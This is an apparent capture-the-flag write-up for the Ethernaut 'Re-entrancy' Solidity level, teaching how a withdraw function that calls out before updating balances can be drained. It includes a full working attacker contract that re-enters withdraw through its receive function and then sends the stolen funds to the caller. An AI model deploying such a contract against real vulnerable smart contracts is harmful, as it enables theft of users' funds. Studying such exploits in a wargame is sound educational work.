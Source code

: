 # Re-entrancy Ethernaut

## Goals

=> Steal all the funds from the contract.

### Hints

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the "?" page above, section "Beyond the console"

### Solution

- So since we can withdraw the amount we have in balance and the withdraw function calls back to us we can just perform a reentrancy attack on the call to us which triggers our fallback function which then calls back to the vulnerable contract and our balance is still the same so we can call withdraw multiple times until our balance gets updated, I wrote a contract that looks for the balance of the contract, deposits this amount and then withdraws that amount, the callback to our receive function will then re enter the withdraw function for the rest of the contracts balance

### Attacker Contract

```solidity
contract Hack {
    Reentrance reentrance;
    uint256 contractValue;

    constructor(address payable _reentrance) public {
        reentrance = Reentrance(_reentrance);
    }

    receive() external payable {
        if (contractValue > 0) {
            reentrance.withdraw(contractValue);
        }
    }

    function attack() public payable {
        contractValue = address(reentrance).balance;
        require(contractValue > 0, "Contract is empty");
        reentrance.donate{value: contractValue}(address(this));
        reentrance.withdraw(contractValue);
    }

    function withdrawStolenFunds() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
